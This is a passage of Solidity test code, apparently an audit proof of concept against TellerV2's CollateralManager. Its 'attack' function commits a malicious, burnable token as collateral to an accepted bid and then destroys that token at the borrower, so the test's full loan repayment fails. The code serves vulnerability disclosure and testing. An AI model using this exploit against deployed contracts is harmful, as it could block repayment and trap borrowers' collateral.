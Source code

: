 ```solidity
        
        
        tellerV2.repayLoanFull(_bidId, wethMock2, finalAmount, collateralManager); // Fail here if the attacker attacked.
        assertEq(wethMock.balanceOf(address(borrower)), 200, "Didn't receive my collaterals");  // Assertion Success unless the attacker attacked.
    }
}
contract TellerV2User is User {
    //WethMock public immutable wethMock;
    Test_TestERC20Token public immutable wethMock;
    CollateralManager cm;
    constructor(address _tellerV2, Test_TestERC20Token _wethMock) User(_tellerV2) {
        wethMock = _wethMock;
    }


    //receive 721
    function onERC721Received(address, address, uint256, bytes calldata)
        external
        returns (bytes4)
    {
        return this.onERC721Received.selector;
    }

    //receive 1155
    function onERC1155Received(
        address,
        address,
        uint256,
        uint256,
        bytes calldata
    ) external returns (bytes4) {
        return this.onERC1155Received.selector;
    }

    function approveERC20(address _token, address _receiver, uint256 amount) public {
        Test_TestERC20Token(_token).approve(_receiver, amount);
    }
    // attack function to commit collateral to an existing bid (already accepted).

    function attack(address collateralManager, uint bidId, uint256 amount, address _tokenAddress, address _victim) public{
        cm = CollateralManager(collateralManager);
        Collateral memory collateral = Collateral({
            _collateralType: CollateralType.ERC20,
            _amount: amount,
            _tokenId: 0,
            _collateralAddress: _tokenAddress
        });
        Test_TestERC20Token(_tokenAddress).transfer(_victim, amount);
        console.log("Before burn , malToken amount at borrower", Test_TestERC20Token(_tokenAddress).balanceOf(address(_victim)));
        cm.commitCollateral(bidId, collateral);
        Test_TestERC20Token(_tokenAddress).destroy(_victim, amount);
        console.log("After burn , malToken amount at borrower", Test_TestERC20Token(_tokenAddress).balanceOf(address(_victim)));
    }

    // function to submit Bid as behalf of a borrower.

    function submitBid(
            TellerV2_Mock _teller,
```